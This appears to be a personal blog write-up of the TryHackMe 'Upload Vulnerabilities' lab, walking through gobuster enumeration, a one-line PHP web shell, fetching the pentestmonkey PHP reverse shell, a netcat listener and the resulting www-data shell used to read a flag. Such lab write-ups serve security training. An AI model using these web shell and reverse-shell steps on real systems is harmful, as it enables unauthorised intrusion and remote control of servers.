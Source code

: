 ```yaml
---
layout: post
title:  "THM: Upload Vulnerabilities"
date:   2024-01-31 13:50:01 -0600
categories: TryHackMe
image: /assets/img/uploadvulns.png
---
```


first edit the host file and begin

``` bash
#/bin/sh
echo "10.10.232.106    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" >> /etc/hosts
```

In the gobuster part
```
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/30 00:33:15 Starting gobuster
===============================================================
/REDACTED (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2024/01/30 01:03:05 Finished
===============================================================
root@ip-10-10-106-1:~# 

```

Get either a web shell or a reverse shell on the machine.
Let's try a web shell first!

I'll create a file webshell.php
```
<?php echo system($_GET["cmd"]);?>
```
After several tries and remembering the path that I got from gobuster
```
view-source:http://shell.uploadvulns.thm/{REDACTED}/webshell.php?cmd=cat%20/var/www/flag.txt
```
But I like the reverse shell better

```
root@ip-10-10-106-1:~# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2024-01-30 01:08:39--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: \u2018php-reverse-shell.php\u2019

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2024-01-30 01:08:39 (51.5 MB/s) - \u2018php-reverse-shell.php\u2019 saved [5491/5491]

root@ip-10-10-106-1:~# sudo nano php-reverse-shell.php 

```
Then change to my AttackBox IP and port 9000

```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)

```
After figuring out that only 1 web file was loaded, I had to restart the machine and do it again to make it work, but eventually I got:
```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.120.163 33744 received!
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:35:34 up 1 min,  0 users,  load average: 0.62, 0.41, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /var/www/flag.txt
```
